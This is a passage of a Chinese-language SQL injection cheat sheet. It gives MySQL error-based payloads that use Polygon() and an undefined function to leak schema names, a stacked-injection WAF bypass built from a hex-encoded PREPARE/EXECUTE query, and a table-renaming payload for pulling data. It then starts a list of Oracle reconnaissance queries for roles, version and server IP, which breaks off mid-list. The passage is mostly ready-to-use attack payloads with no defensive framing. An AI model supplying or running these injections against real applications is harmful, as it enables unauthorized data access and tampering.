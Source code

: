 **同时，可以利用using爆其他字段：**

### 1.11.2 表名

**翻阅mysql的文档发现了一个非常好玩的函数**

**Polygon(ls1, ls2, …)**

**Polygon从多个LineString或WKB LineString参数 构造一个值 。如果任何参数不表示LinearRing（也就是说，不是一个封闭和简单的LineString），返回值就是NULL**

**如果传参不是linestring的话，就会爆错，而当如果我们传入的是存在的字段的话，就会爆出已知库、表、列。**

### 1.11.3 库名

**上面的方法已经可以爆出库名了，提供另一个方法**

**`select * from admin where id =1-a()`**

## 1.12 堆叠注入

### 1.12.1 绕过部分waf

**`SET @SQL=0x73656c65637420646174616261736528293b;
PREPARE pord FROM @SQL;EXECUTE pord;`**

### 1.12.2

**思路: 找一处可查询处,利用修改表名来拿数据**

```mysql
';rename table `words` to `xxxx`;rename table `1919810931114514` to `words`;alter table `words` add id int primary key auto_increment;%23
```

# 2 Oracle

## 2.1 常用信息及语句

**注释符：**

**`-- +`**

**当前用户权限：**

**`select * from session_roles`**

**当前数据库版本：**

**`select banner from sys.v_$version where rownum=1`**

**服务器监听IP：**

**`select utl_inaddr.get_host_address from dual`**

**服务器操作系统：**
